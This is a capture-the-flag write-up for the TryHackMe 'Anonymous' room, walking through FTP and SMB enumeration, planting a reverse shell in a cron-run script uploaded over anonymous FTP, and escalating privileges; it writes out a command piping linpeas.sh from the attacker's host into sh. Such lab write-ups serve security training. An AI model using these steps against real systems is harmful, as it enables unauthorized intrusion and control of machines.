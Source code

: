 # This is a Writeup for the Room Anonymous on http://tryhackme.com 

## Enumeration

####Nmap

First we use nmap to see which ports are open and which services are running on them.

[![https://imgur.com/3KHpnMu.png](https://imgur.com/3KHpnMu.png)](https://imgur.com/3KHpnMu.png)

The first thing that catches our eye is the possibility to log into FTP anonymously which also hints to the room name so lets try that.

[![https://imgur.com/NSv0ZJ1.png](https://imgur.com/NSv0ZJ1.png)](https://imgur.com/NSv0ZJ1.png)

Lets discover which files we can find on the ftp server:

[![https://imgur.com/IyxL5jx.png](https://imgur.com/IyxL5jx.png)](https://imgur.com/IyxL5jx.png)

and use the get command to download the files.

The only interesting file we found is this bash script:

![Imgur](https://i.imgur.com/FS6sPPw.png) 

i am sure we can exploit it but lets first explore other options, we will find out later on.

Lets try to enumerate the SMB shares on Port 139 and 445

For this we can use the tool Enum4Linux which is pretty handy.

The usage is straight forward: 
enum4linux targetIP

We found a SMB share called pics.

![Imgur](https://i.imgur.com/ayu97kS.png)

Lets try to loginto that with the smbclient.

You can do that with the command:
smbclient \\\\targetip\\share -u anonymous
and no password.
There are only 2 pictures on the smbshare so we go back and explore the bash script in more detail.

It looks like a cronjob, so lets try if we can not only download but also upload files to ftp?

It works! 

So our next step are the following:
Download the clean.sh script, 

hide a command for a reverseshell inside 
-> Place to find a reverseshell https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

[![https://imgur.com/MYn1gRG.png](https://imgur.com/MYn1gRG.png)](https://imgur.com/MYn1gRG.png)

and replace the one on the ftp server with ours.

[![https://imgur.com/od1He2e.png](https://imgur.com/od1He2e.png)](https://imgur.com/od1He2e.png)

Now we only need to setup a nc listener and wait a bit, we are in!

[![https://imgur.com/cr43x7b.png](https://imgur.com/cr43x7b.png)](https://imgur.com/cr43x7b.png)

First lets get a better shell and then escalate our privileges!

We can use python for that: python -c 'import pty; pty.spawn("/bin/bash")'

##Privilege Escalation

Lets make our life easier by setting up a http server on my host machine and curl linpeas.sh on the target.

[![https://imgur.com/32WBOx6.png](https://imgur.com/32WBOx6.png)](https://imgur.com/32WBOx6.png)

With the command:

curl http://your_ip:8000/linpeas.sh | sh you can get linpeas.sh and execute it.

(Of course you need to download it first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

[![https://imgur.com/QhNXV9u.png](https://imgur.com/QhNXV9u.png)](https://imgur.com/QhNXV9u.png)

[![https://imgur.com/LwpJgWs.png](https://imgur.com/LwpJgWs.png)](https://imgur.com/LwpJgWs.png)

[![https://imgur.com/RinrpKl.png](https://imgur.com/RinrpKl.png)](https://imgur.com/RinrpKl.png)

In hindsight linpeas was maybe a bit overkill we could have also checked for SUID's manually with:

find / -perm /4000 -type f 2>/dev/null

Thank you for reading :)
